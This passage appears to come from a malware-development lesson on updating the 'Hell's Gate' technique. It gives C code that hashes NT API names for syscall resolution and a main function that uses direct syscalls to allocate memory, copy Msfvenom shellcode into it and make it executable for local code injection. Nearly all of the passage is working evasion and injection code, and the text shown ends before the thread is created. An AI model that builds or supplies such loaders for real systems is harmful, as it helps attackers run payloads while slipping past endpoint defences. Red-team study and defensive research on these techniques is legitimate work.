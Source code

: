 ```
            ((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
        crc = ((unsigned)crc >> 8) ^ c;
        i = i + 1;
    }
    return ~crc;
}

#define HASH(API) crc32h((char*)API)int main() {

    printf("#define %s%s \t 0x%0.8X \n", "NtAllocateVirtualMemory", STR, HASH("NtAllocateVirtualMemory"));
    printf("#define %s%s \t 0x%0.8X \n", "NtProtectVirtualMemory", STR, HASH("NtProtectVirtualMemory"));
    printf("#define %s%s \t 0x%0.8X \n", "NtCreateThreadEx", STR, HASH("NtCreateThreadEx"));
    printf("#define %s%s \t 0x%0.8X \n", "NtWaitForSingleObject", STR, HASH("NtWaitForSingleObject"));
}

```
[![](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-719008069-88be2bdc-b34e-4a9b-a338-91df90cd51a2.png)](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-719008069-88be2bdc-b34e-4a9b-a338-91df90cd51a2.png)### **Main Function**

The `InitializeNtSyscalls` function is called first, followed by syscalls to perform a local code injection using Msfvenom's shellcode. The call to the syscalls is done using the `SetSSn` and `RunSyscall` assembly functions previously described.


```
int main() {

	NTSTATUS	STATUS		= NULL;
	PVOID		pAddress	= NULL;
	SIZE_T		sSize		= sizeof(Payload);
	DWORD		dwOld		= NULL;
	HANDLE		hProcess	= (HANDLE)-1,	// local process
			    hThread		= NULL;


	// initializing the used syscalls
	if (!InitializeNtSyscalls()) {
		printf("[!] Failed To Initialize The Specified Direct-Syscalls \n");
		return -1;
	}


	// allocating memory
	SetSSn(g_Nt.NtAllocateVirtualMemory.dwSSn);
	if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
		printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}

	// copying the payload
	memcpy(pAddress, Payload, sizeof(Payload));
	sSize = sizeof(Payload);

	// changing memory protection
	SetSSn(g_Nt.NtProtectVirtualMemory.dwSSn);
	if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
		printf("[!] NtProtectVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}
```